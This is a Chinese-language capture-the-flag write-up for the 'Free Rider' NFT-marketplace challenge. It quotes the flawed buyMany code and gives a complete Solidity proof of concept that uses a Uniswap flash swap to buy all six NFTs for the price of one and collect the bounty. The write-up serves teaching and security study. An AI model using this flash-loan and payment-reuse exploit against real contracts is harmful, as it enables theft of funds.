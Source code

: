 # FreeRider

## 题目介绍



> **一个该死的有价值的NFT的新市场已经发布！市场上有6个NFT的初始铸币厂，这些NFT正在出售。每个在15 ETH。**
>
> **报告了一个严重的漏洞，声称所有代币都可以被拿走。然而，开发人员不知道如何拯救他们！**
>
> **他们向任何愿意将NFTs拿出来并以自己的方式发送的人提供45 ETH的赏金。恢复过程由专用的智能合约管理。**
>
> **你已经同意帮忙了。尽管，你的余额只有0.1 ETH。开发人员只是不会回复你要求更多的信息。**
>
> **如果你能获得免费的ETH就好了，至少一瞬间。**

## 合约分析

合约主要是由一个nft市场还有一个恢复管理合约组成，挑战成功的条件是交易所丢失所有的eth和nft，nft都要转到恢复地址。

玩家拥有45 eth的奖金。仔细一看挑战合约的初始化有uniswap的池子和我们的题目一结合就有点意思了。下面是购买的函数

我们发现倒数第二行有问题，他直接把钱给了买家。并且只检查支付一次的钱。相当于我们只需要用 15 eth可以循环购买，并且我们还可以得到池子里面的90 eth 和所有的nft。

``` solidity
    function buyMany(uint256[] calldata tokenIds) external payable nonReentrant {
        for (uint256 i = 0; i < tokenIds.length; ++i) {
            unchecked {
                _buyOne(tokenIds[i]);
            }
        }
    }

    function _buyOne(uint256 tokenId) private {
        uint256 priceToPay = offers[tokenId];
        if (priceToPay == 0) {
            revert TokenNotOffered(tokenId);
        }

        if (msg.value < priceToPay) {
            revert InsufficientPayment();
        }

        --offersCount;

        // transfer from seller to buyer
        DamnValuableNFT _token = token; // cache for gas savings
        _token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

        // pay seller using cached token
        payable(_token.ownerOf(tokenId)).sendValue(priceToPay);

        emit NFTBought(msg.sender, tokenId, priceToPay);
    }
```



## 解题过程

1.利用uniswap闪电贷借款15 eth。

2.购买6个nft调用buymany函数。

3.把钱还给池子加上0.3%手续费。

4.把nft发送到recoveryManager，abi编码攻击者的地址。

**POC**

``````solidity
contract Exploit is Test{


    // The NFT marketplace has 6 tokens, at 15 ETH each
    uint256 constant NFT_PRICE = 15 ether;
    uint256 constant AMOUNT_OF_NFTS = 6;
    uint256 constant MARKETPLACE_INITIAL_ETH_BALANCE = 90 ether;

    uint256 constant PLAYER_INITIAL_ETH_BALANCE = 0.1 ether;
    uint256 constant BOUNTY = 45 ether;

    // Initial reserves for the Uniswap V2 pool
    uint256 constant UNISWAP_INITIAL_TOKEN_RESERVE = 15000e18;
    uint256 constant UNISWAP_INITIAL_WETH_RESERVE = 9000e18;

    WETH weth;
    DamnValuableToken token;
    IUniswapV2Factory uniswapV2Factory;
    IUniswapV2Router02 uniswapV2Router;
    IUniswapV2Pair uniswapPair;
    FreeRiderNFTMarketplace marketplace;
    DamnValuableNFT nft;
    FreeRiderRecoveryManager recoveryManager;
    address public owner;

    constructor(DamnValuableToken _token,FreeRiderNFTMarketplace _marketplace,DamnValuableNFT _nft,FreeRiderRecoveryManager _recovery,WETH _weth,IUniswapV2Pair _pair)payable {
        token=_token;
        marketplace=_marketplace;
        nft=_nft;
        recoveryManager=_recovery;
        weth=_weth;
        uniswapPair=_pair;
        owner=msg.sender;
    }
    function uniswapV2Call(
        address sender,
        uint256 amount0,
        uint256 amount1,
        bytes calldata data
    ) external {
        weth.withdraw(weth.balanceOf(address(this)));
        //购买nft
        uint256[] memory nftid = new uint256[](6);
        for (uint i = 0; i < nftid.length; ++i) {
            nftid[i] = i;
        }
        marketplace.buyMany{value: 15 ether}(nftid);
        //手续费
        uint256 replayamount =15 ether * 1004 / 1000;
        weth.deposit{value: replayamount}();
        weth.transfer(address(uniswapPair), 15.06 ether);
        weth.transfer(address(owner), weth.balanceOf(address(this)));

        //转到恢复地址
        for(uint256 i=0;i<6;i++){
            nft.safeTransferFrom(address(this), address(recoveryManager), i,abi.encode(address(owner)));
        }

    }
    function onERC721Received(address, address, uint256 _tokenId, bytes memory _data)
        external
        returns (bytes4)
    {
        return IERC721Receiver.onERC721Received.selector;
    }
    receive() external payable{}
}

``````